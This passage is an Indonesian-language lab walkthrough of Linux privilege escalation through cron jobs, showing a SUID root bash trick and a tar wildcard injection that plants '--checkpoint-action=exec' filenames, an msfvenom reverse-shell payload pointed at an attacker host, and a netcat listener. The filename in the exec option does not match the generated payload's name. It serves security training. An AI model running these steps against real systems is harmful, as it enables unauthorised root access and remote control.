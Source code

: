 3. selanjutnya pastikan untuk membuat file `overwrite.sh` menjadi executable dengan cara `chmod +x overwrite.sh`. selanjutnya hanya tinggal menunggu hingga cron job melakukan tugasnya untuk run file yang telah kita buat.

4. jika sudah, kita dapat mencoba command berikut untuk mendapatkan root shell.

```shell
/tmp/rootbash -p
```

# Task 10 : Cron Jobs - Wildcards

1. coba lihat konten dari cron job script lain

```shell
cat /usr/local/bin/compress.sh
```

hasilnya

```shell
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```

dari hasil tersebut dapat dilihat bahwa wildcard (simbol `*`) digunakan bersamaan dengan `tar` command di home dir. untuk hal ini, kita dapat lihat ke [GTFOBins untuk tar](https://gtfobins.github.io/gtfobins/tar/).

dapat dilihat dari GTFOBins bahwa `tar` memiliki command line options yang membuat kita dapat mengeksekusi command lainnya.

2. gunakan `msfvenom` untuk generate revshell ELF binary.

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=LOCAL-IP LPORT=LOCAL-PORT -f elf -o revshell.elf
```

dan tidak lupa untuk transfer file yang telah di generate ke target.

3. buat menjadi executable dengan `chmod +x revshell.elf`

4. buat dua file beriktu di home user

```shell
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf
```

5. Ketika tar command di run oleh cron jobs, maka wildcard (simbol `*`) akan expand dan memasukkan 2 file yang barusan kita buat. karena nama 2 file tersebut merupakan valid command dari `tar`, tar akan mengenali mereka sebagai cmdline options daripada filename.

6. selanjutnya setup netcat listener pada local box dan tunggu hingga cron job menjalankan file yang telah kita buat.

```shell
nc -lvnp L-PORT
```
